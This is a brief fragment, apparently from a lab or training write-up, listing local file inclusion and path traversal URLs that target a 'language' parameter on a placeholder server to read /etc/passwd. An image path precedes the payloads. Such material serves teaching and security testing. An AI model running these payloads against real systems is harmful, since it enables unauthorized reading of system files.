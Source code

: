 http://<SERVER_IP>:<PORT>/index.php?language=/etc/passwd

http://<SERVER_IP>:<PORT>/index.php?language=/etc/passwd

http://<SERVER_IP>:<PORT>/index.php?language=../../../../etc/passwd

http://<SERVER_IP>:<PORT>/index.php?language=/../../../etc/passwd

